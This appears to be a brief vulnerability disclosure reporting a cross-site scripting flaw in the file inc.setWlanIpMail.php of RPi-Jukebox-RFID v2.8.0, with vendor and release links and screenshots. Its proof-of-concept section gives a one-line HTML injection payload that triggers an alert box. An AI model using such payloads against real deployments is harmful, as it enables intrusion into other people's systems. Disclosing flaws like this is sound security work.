 # XSS vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /inc.setWlanIpMail.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- /htdocs/inc.setWlanIpMail.php


**Version**

- 2.8.0

### POC

```
"><img src=x onerror=alert('xss')>
```

![image-20250825031649588](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250316199.png)



![image-20250825031713602](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250317197.png)